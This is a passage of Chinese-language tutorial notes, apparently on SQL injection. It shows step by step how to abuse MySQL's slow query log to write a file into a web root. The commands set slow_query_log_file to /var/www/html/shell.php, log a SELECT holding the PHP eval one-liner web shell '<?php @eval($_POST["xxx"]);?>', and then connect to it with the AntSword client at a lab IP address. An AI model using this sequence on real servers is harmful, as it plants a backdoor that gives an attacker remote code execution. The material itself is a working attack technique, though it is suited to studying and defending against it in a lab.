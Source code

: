 ##### 查看慢日志状态和路径

```bash
show variables like '%slow_query_log%';
```

![image-20240803100922532](../../../../repo/assets/19.SQL注入/image-20240803100922532.png)

##### 启动慢日志

```bash
set global slow_query_log=1;
set global slow_query_log_file='/var/www/html/shell.php';

show variables like '%char%';						#查看字符集路径
show variables like '%slow_query_log%';
show variables like '%log%';
```

![image-20240803101406917](../../../../repo/assets/19.SQL注入/image-20240803101406917.png)

![image-20240803101733059](../../../../repo/assets/19.SQL注入/image-20240803101733059.png)

##### 查看默认时间

```bash
show variables like '%long_query_time%';
```

![](../../../../repo/assets/19.SQL注入/image-20240803102822112.png)

##### 写一句话木马

```bash
select '<?php @eval($_POST["xxx"]);?>' or sleep(10);
```

![image-20240803103106313](../../../../repo/assets/19.SQL注入/image-20240803103106313.png)

![image-20240803103526942](../../../../repo/assets/19.SQL注入/image-20240803103526942.png)

##### 蚁剑连接

```bash
http://192.168.70.14:8088/shell.php
xxx
```

![image-20240803103624862](../../../../repo/assets/19.SQL注入/image-20240803103624862.png)

![image-20240803103756911](../../../../repo/assets/19.SQL注入/image-20240803103756911.png)

### 5.2、一般日志

一般查询日志 记录所有客户端发给数据库服务器的SQL语句 增删改查.....
